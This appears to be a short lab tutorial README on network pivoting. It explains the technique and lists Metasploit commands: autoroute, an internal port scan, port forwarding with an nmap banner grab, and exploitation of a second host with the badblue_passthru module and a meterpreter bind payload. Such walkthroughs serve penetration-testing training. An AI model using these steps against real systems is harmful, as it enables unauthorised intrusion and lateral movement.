










# Pivoting
Let's perform pivoting!
# Introduction of the Pivoting technique
Pivoting is a technique in cyber security that allows an attacker to move from one compromised system to another within a network. It simulates how a real attacker would try to access more valuable or vulnerable targets by using a foothold machine as a bridge. There are different types of pivoting, such as port forwarding, VPN pivoting, and SOCKS proxy pivoting. Pivoting is also related to lateral movement, which involves privilege escalation on the same or different machines. 
  
## Example of Pivoting  
### **We are in the DMZ. After obtaining the initial access to a target, we will use it to perform pivoting on the internal network.. **
**Victim Machine 1 : 10.3.25.174** (first Target in the DMZ) 
**Victim Machine 2 : 10.3.24.33** (second Target in the internal network target reachable with Pivoting)  

### **Exploit the first Machine and got an initial access. **
 
 - **ipconfig **
 
 - **Execute the command: run autoroute -s 10.3.25.0/20 **
 
### Use Metasploit post exploitation module for scanning the Target 2:  
 - **use auxiliary/scanner/portscan/tcp **
 - **set RHOSTS 10.3.24.33  (ip target 2) **
 - **set PORTS 1-100 **
 - **exploit  **
 
Now, we will forward the remote port 80 to local port 1234 and grab the banner using Nmap 
 - **portfwd add -l 1234 -p 80 -r 10.3.24.33 (ip target 2) **
 
 - **nmap -sV -sS -p 1234 localhost (don't close Meta, use another terminal) **
 
### Successfull! We scanned the internal network Target!! Now we will exploit it with Metasploit. 
 - **use exploit/windows/http/badblue_passthru **
 - **set PAYLOAD windows/meterpreter/bind_tcp **
 - **set RHOSTS 10.3.24.33 (ip target 2) **
 - **set LPORT 3333 **
 - **exploit **
 
### Check that we are in the Target 2
 - **sysinfo and ipconfig **
  

#Author
<b>Xiao Li Savio Feng</b>
